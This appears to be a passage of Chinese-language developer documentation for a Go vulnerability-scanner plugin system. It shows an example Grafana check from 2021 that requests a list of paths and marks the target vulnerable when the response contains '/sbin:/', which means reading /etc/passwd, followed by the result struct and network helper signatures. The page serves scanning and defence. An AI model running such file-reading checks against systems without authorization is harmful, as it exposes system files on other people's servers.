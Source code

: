 ```go
      Solution:    "官网更新补丁：https://grafana.com/",
      CreateAt:    "2021-12-07",
    },
  }, Exploit: func(scheme, ip string, port int, duration time.Duration) (result models.VulResult) {

	  //在此块实现业务逻辑
    url := fmt.Sprintf("%s://%s:%d", scheme, ip, port)

    for _, item := range path {

      req, err := http.NewRequest("GET", url+item, nil)
      if err != nil {
        return
      }

      req.Header.Set("user-Agent", randomUtils.GetUserAgent()) //设置随机UA
      //参数：request、超时时间、允许重定向
      resp, err := netUtils.SendHttp(req, duration, true)

	  //如果请求成功发送且响应body包含/sbin:/ 则判定为具有该漏洞
      if err == nil && strings.Contains(string(resp.Body), "/sbin:/") {
        result.State = true                 //设置状态为发现漏洞
        result.Response = resp.ResponseRaw  //捕获响应RAW
        result.Request = resp.RequestRaw    //捕获请求Raw
        break
      }
    }
    return
  }})
}
```

#### models.VulResult 结构体内容如下：

```go
type VulResult struct {
	Request  string `json:"request"`  //请求raw
	Response string `json:"response"` //响应raw
	State    bool   `json:"state"`    //状态：true为检测到漏洞
}
```

#### netUtils 网络工具包：

发送 net 时请使用下面封装好的两个函数，否则网络代理以及全局超时无法生效！

```go
// Result 封装的http返回包
type Result struct {
    Body        []byte           //字节数组类型body
    Other       *http.Response   //原始 http.Response
    RequestRaw  string           //请求的完整Raw
    ResponseRaw string           //响应的完整Raw
    HeaderRaw   string           //响应的Header Raw
}

//SendHttp 封装http函数
func SendHttp(request *http.Request, timeout time.Duration, redirect bool) (result Result, err error)

//SendDialTimeout 封装net.DialTimeout函数
func SendDialTimeout(network, address string, timeout time.Duration) (net.Conn, error)

```
